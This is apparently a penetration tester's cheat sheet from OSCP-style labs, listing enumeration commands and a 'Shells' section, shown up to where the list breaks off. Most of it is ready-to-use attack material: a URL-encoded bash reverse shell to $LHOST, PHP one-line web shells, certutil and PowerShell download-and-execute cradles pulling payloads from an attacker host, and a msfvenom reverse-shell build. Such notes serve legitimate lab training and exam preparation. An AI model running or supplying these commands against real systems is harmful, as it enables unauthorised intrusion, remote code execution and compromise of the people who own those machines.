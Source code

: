         Various *nix tools built as statically-linked binaries
        
    
    These are the commands I kept reaching for across countless OSCP-style labs. Recon, getting a shell, privesc, this is the muscle memory layer of the playbook.
    
    > ⚠️ Adapt these to your own lab or environment. Some IPs or paths are placeholders from my own notes.
    > 
    
    ## Kali 🐲
    
    ```bash
    python2 -m pip install -U impacket
    #URL encode with jq
    ┌──(kali㉿kali)-[~/Techblog]
    └─$ jq -rn --arg x 'http://$RHOST/Readme&cmd=bash -i >& /dev/tcp/$LHOST/443 0>&1' '$x|@uri'
    ```
    
    ## Enum. 🕷️
    
    ```bash
    sudo nmap -sV -Pn $RHOST
    sudo rustscan -a $RHOST -- -A -sC
    sudo nmap -p- --min-rate 5000 -T4 <ip address>
    nmap -sU 
    nmap -sV -sC #on the ports found.
    curl -i -s http://$RHOST | html2text
    # start off with /usr/share/dirb/wordlists/common.txt
    # /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
    # for windows - /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
    # /usr/share/dirb/wordlists/big.txt
    ffuf -recursion -c -e '.htm','.php','.html','.js','.txt','.zip','.bak','.asp','.aspx','.xml','.py','.log','.json','.old' -w ~/onelistforallshort.txt -u http://$RHOST:8080/oscommerce-2.3.4/FUZZ
    feroxbuster -u http://$RHOST/ -x htm php html js txt zip bak asp aspx xml py -r -o 80-ferox.txt -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -t 100
    gobuster dir -U admin -P admin -w /usr/share/wordlists/dirb/common.txt -u http://$RHOST/svn
    ```
    
    ## Shells 🐚
    
    ```bash
    <?php system($_REQUEST['cmd']); ?>
    <?php echo system($_REQUEST["o"]);?>
    <?php echo shell_exec($_GET['o']); ?>
    curl -X POST http://$RHOST/api/Login --data 'login:admin' -H "Content-Type: application/json"
    curl -s -i -X POST -H 'Content-Length: 0' http://$RHOST/list-running-procs
    curl "http://$RHOST/cmd.php?cmd=certutil+-f+-urlcache+http://$LHOST/reverse.exe+reverse.exe"
    curl "http://$RHOST/cmd.php?cmd=reverse.exe"
    curl http://$RHOST/svn/dev/users/views.py -u "admin:admin" --output views.py
    curl --user offsec:elite $RHOST/pwn.php
    **#WINDOWS**
    msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe
    powershell iex(new-object system.net.webclient).downloadstring('http://$LHOST/pn.ps1')
    certutil -urlcache -split -f [http://](http://172.16.1.1/shell.exe)$LHOST[/](http://172.16.1.1/shell.exe)shell.exe & shell.exe